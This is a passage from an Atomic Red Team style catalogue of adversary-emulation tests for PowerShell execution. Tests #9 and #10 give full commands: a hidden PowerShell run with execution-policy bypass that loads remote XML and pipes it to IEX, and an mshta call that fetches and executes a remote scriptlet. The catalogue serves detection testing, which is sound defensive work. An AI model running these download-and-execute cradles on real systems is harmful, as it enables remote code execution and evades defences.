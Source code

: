 ## Atomic Test #9 - Powershell XML requests
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell xml download request

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1086/payloads/test.xml|


#### Attack Commands: Run with `command_prompt`! 
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -windowstyle hidden -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```






<br/>
<br/>

## Atomic Test #10 - Powershell invoke mshta.exe download
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell invoke mshta to download payload

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1086/payloads/mshta.sct|


#### Attack Commands: Run with `powershell`! 
```
"C:\Windows\system32\cmd.exe" /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```






<br/>
<br/>

## Atomic Test #11 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.
